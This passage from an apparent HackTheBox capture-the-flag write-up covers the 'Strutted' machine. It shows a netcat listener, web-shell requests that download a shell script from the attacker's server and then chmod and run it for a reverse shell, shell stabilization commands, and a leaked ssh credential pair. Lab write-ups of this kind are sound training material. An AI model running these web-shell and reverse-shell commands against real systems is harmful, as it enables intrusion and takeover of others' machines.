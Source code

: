 Next, start a netcat listener on the specified port:

```
nc -lvnp PORT
```

We can now use the following to download the file:

```
http://strutted.htb/shell.jsp?action=cmd&cmd=wget%20http%3A%2F%2FIP%3A8000%2Fshell.sh%20-O%20%2Ftmp%2Fshell.sh
```

It will download the file from our python server, then, we can give it permissions and execute it:

```
http://strutted.htb/shell.jsp?action=cmd&cmd=chmod%20777%20%2Ftmp%2Fshell.sh
```

```
http://strutted.htb/shell.jsp?action=cmd&cmd=/tmp/shell.sh
```

If we check our listener, we can notice we got our connection:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325143143.png)

Let's begin privilege escalation.

## PRIVILEGE ESCALATION

***

First step would be stabilizing our shell:

1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![](gitbook/cybersecurity/images/Pasted%20image%2020250325143331.png)

Let's start by checking the users:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325144246.png)

We got an user with a shell: `james`, if we remember the `tomcat-users.xml` file, we got a password in it, let's check the file again:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325144416.png)

Let's test these credentials in ssh:

```
james:IT14d6SSP81k
```
